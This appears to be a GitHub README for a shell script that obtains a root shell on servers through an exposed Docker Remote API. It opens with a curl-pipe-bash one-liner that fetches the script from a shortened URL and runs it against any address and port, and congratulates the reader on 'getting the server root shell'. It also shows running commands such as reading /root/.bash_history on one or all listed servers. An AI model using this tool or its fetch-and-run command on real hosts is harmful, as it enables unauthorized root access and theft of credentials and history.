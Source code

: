 # Docker Root Shell

Through Docker Remote API get the server root shell.

## Usage

Quickly test a server, required server ip address and the Docker API port:
```
curl -sSL https://git.io/vXNB4 | bash -s test <addr:port>
```
If this command return a shell `#`. Congratulations! You get the server root shell.

## Detail

```
=======================================================================================================

   ____             _               ____             _     ____  _          _ _ 
  |  _ \  ___   ___| | _____ _ __  |  _ \ ___   ___ | |_  / ___|| |__   ___| | |
  | | | |/ _ \ / __| |/ / _ \ '__| | |_) / _ \ / _ \| __| \___ \| '_ \ / _ \ | |
  | |_| | (_) | (__|   <  __/ |    |  _ < (_) | (_) | |_   ___) | | | |  __/ | |
  |____/ \___/ \___|_|\_\___|_|    |_| \_\___/ \___/ \__| |____/|_| |_|\___|_|_|
  Email: i@zuolan.me                                     Blog: https://zuolan.me
=======================================================================================================
  Available commands, <> is required, [] is Optional.
  Note: Alias CAN NOT be a number, but it can be a combination of letters and numbers.
=======================================================================================================
  con     <alias>                                  -  Connect to the specified server.
  run     <alias>/all "<command> [command]"        -  Run a one-time command on one or all servers.
  add     <alias>:<addr>:<port>:[cpu]:[ram]:[note] -  Add a server to list.
  del     <alias>                                  -  Delete a server in list.
  ping    <count>                                  -  Input a number of packets to transmit.
          <alias>                                  -  Input a alias to test the server delay.
  test    <addr:port>                              -  Quickly test the server.
  docker  <alias> <docker command>                 -  Use Docker control the server.
  edit                                             -  Edit the server list
=======================================================================================================
```

## Show the server list

Default server list file is `hosts.list`.You can change it in this script head.
```
$ ./docker-root-shell.sh
=======================================================================================================
  Num   - Alias - Address Port          - CPU Mem       -  Note
=======================================================================================================
  1     - wo    - 172.16.8.247 2376     - 8 Cu 8 GB     -  Work
  2     - ol    - 172.16.158.90 2376    - 8 Cu 8 GB     -  Online
  ... ...
```

## Connect to a server

Use the server alias to connect the specified server. Such as:
```
./docker-root-shell.sh con wo
```

## Run a one-time command on one or all servers

You can run a one-time command on one or all servers, such as run the command on a server:
```
./docker-root-shell.sh run wo "cat /root/.bash_history"
```
or run the command on all server:
```
./docker-root-shell.sh run all "cat /etc/hosts"
```

## Add a server to list

You can easily to add a server in the list.
```
./docker-root-shell.sh add <alias>:<addr>:<port>:[cpu]:[ram]:[note]
./docker-root-shell.sh add wo2:172.16.168.233:6666
```
`<>` is required, `[]` is Optional. Alias CAN NOT be a number, but it can be a combination of letters and numbers.

## Delete a server in list

You can easily to remove a server in the list.
```
./docker-root-shell.sh del <alias>
./docker-root-shell.sh del wo2
```

## Test the server delay

Input a number of packets to transmit. It will ping all server.
```
./docker-root-shell.sh ping <count>
./docker-root-shell.sh ping 1
```

Input a alias to test the server delay. Only ping the server.
```
./docker-root-shell.sh ping <alias>
./docker-root-shell.sh ping wo2
```

## Use Docker client control the server

Use Docker client control the server:
```
./docker-root-shell.sh docker <alias> <docker subcommand>
```
Such as get the server images list:
```
./docker-root-shell.sh docker wo2 images
```

## Edit the server list

Just edit list file.
```
./docker-root-shell.sh edit
```
